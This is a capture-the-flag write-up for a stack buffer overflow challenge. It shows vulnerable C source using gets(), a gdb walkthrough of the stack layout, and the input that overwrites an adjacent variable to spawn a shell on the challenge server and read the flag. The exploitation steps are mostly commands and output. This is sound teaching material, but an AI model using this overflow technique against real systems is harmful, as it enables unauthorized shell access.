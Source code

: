 # Overflow 1

## Task

ez overflow.

nc cyberyoddha.baycyber.net 10001

## Solution

```bash
$ file Overflow1
Overflow1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=134858815bafb8d0abdb1cafeea2a7cae346d528, for GNU/Linux 3.2.0, with debug_info, not stripped
```

We also have the source:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
  char str[] = "AAAA";
  char buf[16];

  gets(buf);

  if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A')){
    system("/bin/sh");
  }
}
```

The task is now to overflow `buf` to overwrite `str` on the stack.

```bash
$ ./checksec --file=Overflow1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70) Symbols       No    0               1               Overflow1
```

We can compile our own overflow file and debug it with gdb, put a breakpoint at the first comp and see where each variable is stored:

```bash
$ gcc overflow1.c -o overflow -fno-stack-protector -no-pie
$ gdb overflow
```

```nasm
(gdb) disass main
Dump of assembler code for function main:
   0x0000000000401136 <+0>:     push   %rbp
   0x0000000000401137 <+1>:     mov    %rsp,%rbp
   0x000000000040113a <+4>:     sub    $0x20,%rsp
   0x000000000040113e <+8>:     movl   $0x41414141,-0x5(%rbp)
   0x0000000000401145 <+15>:    movb   $0x0,-0x1(%rbp)
   0x0000000000401149 <+19>:    lea    -0x20(%rbp),%rax
   0x000000000040114d <+23>:    mov    %rax,%rdi
   0x0000000000401150 <+26>:    mov    $0x0,%eax
   0x0000000000401155 <+31>:    callq  0x401040 <gets@plt>
   0x000000000040115a <+36>:    movzbl -0x5(%rbp),%eax
   0x000000000040115e <+40>:    cmp    $0x41,%al
   0x0000000000401160 <+42>:    jne    0x40117a <main+68>
   0x0000000000401162 <+44>:    movzbl -0x4(%rbp),%eax
   0x0000000000401166 <+48>:    cmp    $0x41,%al
   0x0000000000401168 <+50>:    jne    0x40117a <main+68>
   0x000000000040116a <+52>:    movzbl -0x3(%rbp),%eax
   0x000000000040116e <+56>:    cmp    $0x41,%al
   0x0000000000401170 <+58>:    jne    0x40117a <main+68>
   0x0000000000401172 <+60>:    movzbl -0x2(%rbp),%eax
   0x0000000000401176 <+64>:    cmp    $0x41,%al
   0x0000000000401178 <+66>:    je     0x401186 <main+80>
   0x000000000040117a <+68>:    lea    0xe83(%rip),%rdi        # 0x402004
   0x0000000000401181 <+75>:    callq  0x401030 <system@plt>
   0x0000000000401186 <+80>:    mov    $0x0,%eax
   0x000000000040118b <+85>:    leaveq
   0x000000000040118c <+86>:    retq
```

We want to stop at `<+40>` so we do a `b *0x40115e` and hit `r`, enter 16 `B` and do a `x/64x` on the register value of `rbp`, our base pointer, minus 0x20 (our stack size from instruction `<+4>`) or of rsp.

```
(gdb) info register rbp
rbp            0x7fffffffe1d0      0x7fffffffe1d0
(gdb) info register rsp
rsp            0x7fffffffe1b0      0x7fffffffe1b0
(gdb) x/64x 0x7fffffffe1d0-0x20
0x7fffffffe1b0: 0x42424242      0x42424242      0x42424242      0x42424242
0x7fffffffe1c0: 0xffffe200      0x00007fff      0x41000000      0x00414141`
```

We now can see that we just have to enter 11 more values to overwrite the first `A` to get past the comparison. Why 11, not 12? Because there is a null byte at the end of our input. See `man 3 gets`:

`gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').`

Let's test this:

```bash
$ nc cyberyoddha.baycyber.net 10001
BBBBBBBBBBBBBBBBBBBBBBBBBBB
ls
flag.txt
overflow1
cat flag.txt
CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```
